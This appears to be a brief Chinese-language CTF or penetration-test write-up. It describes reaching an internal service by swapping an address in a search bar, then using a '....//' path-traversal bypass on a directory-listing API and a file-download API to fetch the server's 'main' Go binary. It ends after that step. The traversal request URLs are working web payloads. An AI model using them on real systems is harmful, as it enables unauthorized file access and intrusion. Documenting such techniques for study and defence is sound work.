


访问页面如下




搜索栏里的地址替换为互联网地址，成功访问




### 列目录接口

通过....//绕过
```
http://ip:port/api/v1/files?dirname=....//
```


### 文件下载接口

```
http://ip:port/api/v1/file?filename=....//main
```

下载了main程序。


下载下来是go程序，


